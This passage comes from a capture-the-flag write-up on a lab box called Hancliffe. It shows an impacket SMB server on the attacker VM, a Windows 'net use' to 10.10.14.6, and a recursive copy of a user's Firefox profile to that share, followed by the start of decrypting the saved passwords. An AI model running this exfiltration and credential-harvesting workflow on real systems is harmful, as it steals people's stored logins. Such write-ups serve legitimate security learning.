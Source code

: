 
#### Exfil

To really look through this profile, I’ll want to copy all of files back to my
VM. I’ll start a SMB server with Python:

    
    
    oxdf@hacky$ smbserver.py s . -username oxdf -password oxdf -smb2support
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    

For modern versions of Windows, I won’t be able to connect without a username
and password, and I’ll need SMBv2 support.

I’ll connect to the share from Hancliffe:

    
    
    PS C:\> net use \\10.10.14.6\s /u:oxdf oxdf                
    The command completed successfully.
    

Now I can access `\\10.10.14.6\s` from Hancliffe.

I’ll copy the entire profile back to my computer:

    
    
    PS C:\Users\clara\appdata\roaming\mozilla\firefox\profiles> copy -recurse ljftf853.default-release \\10.10.14.6\s\
    

### Decrypt Passwords

#### Manual Exploring

[This post](https://apr4h.github.io/2019-12-20-Harvesting-Browser-
Credentials/) does a really nice job walking through how Firefox (and Chrome)
passwords can be decrypted. [This
Diagram](https://raw.githubusercontent.com/lclevy/firepwd/master/mozilla_pbe.pdf)
is also really useful:

[![](https://0xdfimages.gitlab.io/img/mozilla_pbe-1.png)_Click for full size
image_](https://0xdfimages.gitlab.io/img/mozilla_pbe-1.png)

Firefox stores saved passwords in a file named `logon.json`. Looking at the
file from clara, there’s one entry, for localhost port 8000 (the H@$hPa$$
instance):

    
    
    {
      "nextId": 2,
      "logins": [
        {
          "id": 1,
          "hostname": "http://localhost:8000",
          "httpRealm": null,
          "formSubmitURL": "http://localhost:8000",
          "usernameField": "website",
          "passwordField": "masterpassword",
          "encryptedUsername": "MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECP+7GREfh/OCBBACN8BqXSHhgvedk/ffsRBn",
          "encryptedPassword": "MFIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECEQe5quezh5lBCg7VV7cXOky4tBMinRRncbXJl1YC3P0Ql5J8ZZS6ZnVjg9yXrbOq1Me",
          "guid": "{39d1884b-56cd-4e30-869b-e0d9df6ca9d9}",